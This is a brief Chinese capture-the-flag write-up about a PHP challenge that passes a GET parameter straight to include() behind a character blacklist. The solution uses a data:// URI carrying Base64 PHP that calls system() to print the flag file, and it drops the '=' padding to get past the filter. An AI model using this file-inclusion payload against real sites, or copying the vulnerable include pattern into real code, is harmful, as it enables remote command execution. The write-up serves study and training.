

# 知识点
### Base64编码为什么会以=号结尾以及+在url传递时会转义位空格的解决方法
[https://blog.csdn.net/weixin_39559282/article/details/114282266](https://blog.csdn.net/weixin_39559282/article/details/114282266)
# 思路
```php
<?php
  
  if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
      die("error");
    }
    include($file);
  }else{
    highlight_file(__FILE__);
}
```
```http
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ0YWMgZmwwZy5waHAiKTsgPz4= 
//base64编码后后面可能会有=，=是起补充作用无实质意义，删除也无大碍
所以最终payload为
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ0YWMgZmwwZy5waHAiKTsgPz4
```

